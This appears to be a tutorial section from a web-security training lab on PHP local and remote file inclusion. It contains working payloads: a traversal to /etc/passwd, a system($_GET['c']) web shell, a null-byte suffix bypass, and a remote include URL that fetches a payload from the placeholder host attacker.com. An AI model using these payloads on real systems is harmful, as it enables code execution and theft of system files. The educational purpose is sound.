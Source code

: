 # File Inclusion

### File Include Vulnerabilities

In a lot of applications, developers need to include files to load classes or to share templates between multiple web pages.

File include vulnerabilities come from a lack of filtering when a user-controlled parameter is used as part of a file name in a call to an including function (`require`, `require_once`, `include` or `include_once` in PHP for example). If the call to one of these methods is vulnerable, an attacker will be able to manipulate the function to load his own code. File include vulnerabilities can also be used as a directory traversal to read arbitrary files. However, if the arbitrary code contains an opening PHP tag, the file will be interpreted as PHP code.

This including function can allow the loading of local resources or  remote resource (a website, for example). If vulnerable, it will lead to:

- **Local File Include (LFI):** A local file is read and interpreted.
- **Remote File Include (RFI):** A remote file is retrieved and interpreted.

By default, PHP disables loading of remote files, thanks to the configuration option: `allow_url_include`. In the ISO, it has been enabled to allow you to test it.

In this first example, you can see an error message, as soon as you inject a special character (a quote, for example) into the parameter:

```
Warning: include(intro.php'): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'intro.php'' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```

If you read the error message carefully, you can extract a lot of information:

- The path of the script: `/var/www/fileincl/example1.php`.
- The function used: `include()`.
- The value used in the call to `include` is the value we injected `intro.php'` without any addition or filtering.

We can use the methods used to detect directory traversal, to detect file include. For example, you can try to include `/etc/passwd` by using the `../` technique.

```
From:
www.example.com/?page=index.php
To:
www.example.com/?page=../../../etc/passwd
```

If this works, then we can try loading the following inside a file to execute a command:

```php
<?php 
  system($_GET['c']);
?>
```

This is then invoked with ```https://www.example.com/?page=maliciousfile.txt&c=command

If the site adds a prefix, this can potentially be removed with a null byte ```%00``` (if their PHP version is lower than 5.3.4). For RFI, you can get rid of the suffix, by adding `&blah=` or `?blah=` depending on your URL:

```http://target.com/?page=http://attacker.com/maliciousfile.txt%00&c=command```

